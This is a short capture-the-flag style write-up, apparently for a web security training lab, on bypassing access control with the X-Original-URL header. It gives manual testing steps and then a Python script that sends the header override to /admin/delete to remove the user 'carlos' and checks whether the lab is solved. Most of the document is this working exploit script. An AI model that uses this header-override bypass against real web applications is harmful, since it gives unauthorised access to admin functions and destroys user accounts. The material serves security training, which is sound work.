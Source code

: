 
Target Goal - Access the admin panel and delete the Carlos user

Test: for client validation only
Test: Add X-Original-URL: /doesnotexist3232 -> "Not Found"
Use: Add X-Original-URL: /admin -> Found
Burp: Show response in browser -> copy url
Use: Add X-Original-URL: /admin/delete
Put the parameters in the GET /?username=carlos
Get url for GET /admin

```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def delete_user(s, url):

    delete_carlos_user_url = url + "/?username=carlos"
    headers = {"X-Original-URL": "/admin/delete"}
    r = s.get(delete_carlos_user_url, headers=headers, verify=False, proxies=proxies)

    # Verify if the user was deleted
    r = s.get(url, verify=False, proxies=proxies)
    res = r.text
    if "Congratulations, you solved the lab!" in res:
        print("(+) Successfully deleted Carlos user.")
    else:
        print("(-) Could not delete Carlos user.")
        
def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    s = requests.Session()
    url = sys.argv[1]
    delete_user(s, url)

if __name__ == "__main__":
    main()
```